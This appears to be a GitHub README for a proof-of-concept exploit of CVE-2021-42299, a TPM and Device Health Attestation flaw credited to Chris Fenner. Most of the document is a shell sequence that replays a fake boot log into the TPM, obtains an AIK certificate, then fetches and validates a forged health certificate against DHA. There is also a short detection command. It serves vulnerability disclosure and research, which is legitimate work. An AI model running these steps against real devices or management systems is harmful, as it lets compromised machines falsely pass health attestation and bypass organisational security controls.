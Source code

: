 # CVE-2021-42299: TPM Carte Blanche

This Proof-Of-Concept demonstrates the exploitation of CVE-2021-42299.

## Technical details

Technical details about the exploit is available at [writeup.md](writeup.md).

## Detection
```shell
sudo bugtool
```

## Exploit proof-of-concept

```shell
# Extend the fake log
sudo dhatool --log=path/to/log/file --bank=sha256 replay
# Self test
sudo attest-tool --log=path/to/log/file self-test
# Get AIK cert
sudo akcli
# Fetch a health cert
sudo dhatool --log=path/to/log/file --bank=sha256 --aik=path/to/aik getcert
# Validate the health cert against DHA with the current time as a nonce
NONCE=$(echo "obase=16; $(date +%s%N)" | bc); echo ${NONCE}
# normally the MDM generates a nonce, asks the device for claims and then validates against DHA
sudo dhatool --cert=path/to/healthcert --bank=sha256 --aik=path/to/aik --nonce=$NONCE validate
```


## Credits

Chris Fenner (cfenn@)
